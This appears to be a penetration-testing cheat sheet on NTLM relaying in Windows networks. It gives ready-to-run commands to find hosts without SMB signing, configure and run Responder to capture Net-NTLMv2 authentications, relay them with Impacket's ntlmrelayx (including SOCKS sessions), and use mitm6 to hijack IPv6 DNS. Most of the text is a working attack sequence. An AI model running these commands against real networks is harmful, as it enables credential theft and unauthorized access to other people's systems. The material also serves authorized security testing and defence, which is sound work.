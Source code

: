 # NTLM Relaying

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions. Using this flag will also provide you with a session on the host if the user is not a local administrator:

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support --socks
```

### Attacking IPv6

While a majority of companies do not utilize IPv6, little know that it is actually enabled by default. By using a tool such as mitm6, we can act as a malicious DNS server and redirect traffic to our attack host.&#x20;

The following command demonstrates basic usage of IPv6:

```bash
sudo mitm6 -d $domain
```

Additionally, the following command demonstrates running mitm6 with the `--ignore-nofqnd` flag which will ignore DHCPv6 queries that do not contain the Fully Qualfiied Domain Name:

```bash
sudo mitm6 -d $domain --ignore-nofqnd
```

#### Troubleshooting

If your testing machine was provisioned in ESXi, the following setting needs to be modified via the web console or it will not work as expected:

```bash
Networking -> VM Network -> Edit Settings -> Promiscuous Mode: Accept

# mitm6 can then be ran with the --no-ra flag.
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}
